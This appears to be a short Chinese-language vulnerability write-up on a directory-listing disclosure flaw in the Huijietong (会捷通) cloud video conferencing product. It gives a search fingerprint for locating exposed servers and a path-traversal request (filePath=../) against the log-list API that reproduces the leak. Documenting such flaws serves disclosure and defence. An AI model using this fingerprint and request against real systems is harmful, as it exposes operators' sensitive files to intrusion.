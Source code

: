 # 会捷通云视讯 list 目录文件泄露漏洞

## 漏洞描述

会捷通云视讯某个文件 list参数 存在目录文件泄露漏洞，攻击者通过漏洞可以获取一些敏感信息

## 漏洞影响

<a-checkbox checked>会捷通云视讯</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/him/api/rest/v1.0/node/role"</a-checkbox></br>

## 漏洞复现

登陆页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145818926.png)



访问Url

```plain
/him/api/rest/V1.0/system/log/list?filePath=../
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145818835.png)



## 